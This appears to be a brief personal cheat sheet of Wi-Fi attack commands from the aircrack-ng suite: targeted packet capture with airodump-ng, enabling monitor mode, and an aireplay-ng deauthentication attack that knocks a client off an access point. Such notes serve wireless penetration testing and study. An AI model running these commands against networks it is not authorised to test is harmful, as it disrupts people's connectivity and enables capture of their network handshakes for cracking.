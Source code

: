 # Interesting Commands

Full airodump-ng:

```bash
sudo airodump-ng --bssid 3E:D7:6B:4F:D7:D8 --channel 1 wlan0 -w output
```

Put Adapter to Monitor Mode:

```bash
sudo airmon-ng start wlan0
```

De-Auth:

```bash
sudo aireplay-ng -0 10 -a AP-MAC -c STA-MAC wlan0
```
